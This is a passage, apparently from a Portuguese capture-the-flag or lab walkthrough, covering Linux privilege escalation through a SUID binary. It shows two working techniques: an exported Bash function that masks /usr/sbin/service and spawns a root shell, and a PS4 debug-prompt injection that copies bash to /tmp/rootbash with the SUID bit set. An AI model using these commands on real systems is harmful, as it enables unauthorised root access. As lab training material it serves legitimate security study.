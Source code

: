 Nas versões do Bash < 4.2-048, é possível definir funções de shell com nomes que se assemelham a caminhos de arquivo e, em seguida, exportar essas funções para que sejam usadas em vez de qualquer executável real nesse caminho de arquivo.

Sabendo disso vamos verificar se a versão do Bash é menor que 4.2-048:

```bash
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

A versão do Bash é menor que 4.2-048, então vamos criar uma função Bash com o nome `/usr/sbin/service` que executa um novo shell Bash (usando -p para que as permissões sejam preservadas) e exporte a função:

```bash
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
```

Agora vamos executar o programa `/usr/local/bin/suid-env2` novamente:

```bash
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

## **<a id="15"> • SUID / SGID Executables - Abusing Shell Features (#2).</a>**

No modo de depuração, o Bash usa a variável de ambiente PS4 para exibir um prompt extra para instruções de depuração.


Sabendo disso vamos executar o programa `/usr/local/bin/suid-env2` com a depuração ativada e a variável de ambiente PS4 definida para executar o comando `cp /bin/bash /tmp/rootbash`:

```bash
root@debian:~# env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
```